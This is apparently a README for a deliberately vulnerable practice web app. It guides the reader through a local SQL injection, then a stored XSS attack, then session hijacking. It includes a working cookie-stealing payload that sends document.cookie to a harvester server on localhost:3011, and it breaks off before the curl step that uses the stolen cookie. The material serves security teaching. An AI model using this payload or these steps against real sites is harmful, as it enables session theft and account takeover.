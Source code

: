 *Note*: there are easier ways to get both passwords than these steps. Don't do it! It's against the rules, and this way will be more fun anyways.

### Practicing SQL injection

First, you'll have to steal the password to an account in order to post to it. Use [a query with `UNION`](http://en.wikipedia.org/wiki/Set_operations_%28SQL%29#UNION_operator) to figure out the password in the information for the `jbieber` account shown at `/user/jbieber`. The constructed SQL is also printed in the server logs if you're having trouble.

### Practicing XSS

Use that password and username to login to the application as `jbeiber`:

`http://localhost:8080/login?username=jbieber&password=somepasswordyoufound`

You've now got a cookie set in your browser which will authenticate `/write-post`. The body of your post is going to have a special payload, of course.

Your payload will be the following snippet:

```
%3Cimg%20src%3D%22a%22%20onerror%3D%22this.src%3D'http%3A%2F%2Flocalhost%3A3011%2Fharvest?cookie='%2Bdocument.cookie%22%20%2F%3E
```

i.e. `<img src="a" onerror="this.src='http://localhost:3011/harvest?cookie='+document.cookie" />`

This is an image with a bad source. On error it uses a little bit of Javascript to re-set its source to a URL of another small Node application which you should start (in another terminal tab) at this point:

`node harvester.js`

It listens on port 3011 for requests to `/harvest` and logs everything sent to the console. Try it out:

`http://localhost:3011/harvest?x=y&a=b`

That image above sets the `cookie` parameter to the value of `document.cookie`, which contains all the cookies for the current page.

#### Being Scooter Braun

Here you're going to have to suspend your disbelief momentarily as you become the victim.

Hit the following URL to login as `sbraun`:

`http://localhost:8080/become-sbraun`

Now you're authenticated as `sbraun` and can post as him, etc. Critically, when you follow the link to see the latest posts you're going to run your own XSS payload and send `sbraun`'s authentication cookie to the harvester you're running in another tab!

### Sidejacking

Now, donning your attacker hat again, you can use his authentication cookie to steal his password with the `/my-password` endpoint. You can use `curl`, a command line utility to make HTTP requests, to do this. Note that this is all from the attacker's server -- we don't even need to involve `sbraun`'s browser once we've stolen his cookies. It might look something like this (with your own stolen cookie):
